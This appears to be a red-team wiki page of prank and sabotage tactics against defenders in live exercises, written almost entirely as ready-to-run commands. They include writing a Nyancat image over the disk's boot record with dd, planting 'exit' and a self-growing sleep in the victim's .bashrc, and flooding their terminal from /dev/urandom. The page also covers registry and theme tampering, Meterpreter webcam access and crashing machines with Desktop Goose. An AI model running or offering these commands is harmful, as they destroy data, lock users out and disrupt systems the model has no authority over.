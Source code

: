 A small collection of tactics to mess with blue teamers in live environments...

# Linux

```shell
xrandr -o inverted # Flip X11 desktop session upside down.
tty # Retrieve TTY number (for redirection)
w   # Gives you you /dev/pts numbers

git clone https://github.com/klange/nyancat.git
cd nyancat
make
cd src
./nyancat > /dev/pts/<pts-num-of-opponent>

dd if=nyan.mbr of=/dev/sda # NyanMBR necessary, overwrites Master Boot Record with Nyancat animation. The MBR image can be found in this repository: https://github.com/brainsmoke/nyanmbr

echo exit >> ~/.bashrc # Add a logout to the login script

cat /dev/urandom > /dev/pts/[pts-num-of-opponent] # Fill terminal with random noise spewing out at high speed.

echo "echo "sleep 1;" >> ~/.bashrc">> ~/.bashrc # Add a longer sleep to their terminal startup every time they login. 

telnet towel.blinkenlights.nl > /dev/[pts-num-of-opponent]
```

# Windows
```powershell
start C:\Windows\Resources\Ease of Access Themes\hc1.theme # Start the Windows high-contrast theme

reg add "HKCU\Control Panel\Mouse" /v "MouseSpeed" /t REG_SZ /d "VALUE" /f # Modify mouse speed
```

Persistence with [[Meterpreter]] affords many options like `webcam_chat`. 

***DoS WITH GEESE***
You can download and install the [Desktop Goose](https://samperson.itch.io/desktop-goose/download/eyJleHBpcmVzIjoxNzM5NDE2Mjg0LCJpZCI6NTU4MjE4fQ%3d%3d.RdlBCXbB6sF2fBp3tD9%2f19MhrZs%3d) on Windows and Mac. Running ten or more Desktop Geese may crash the adversary's computer.

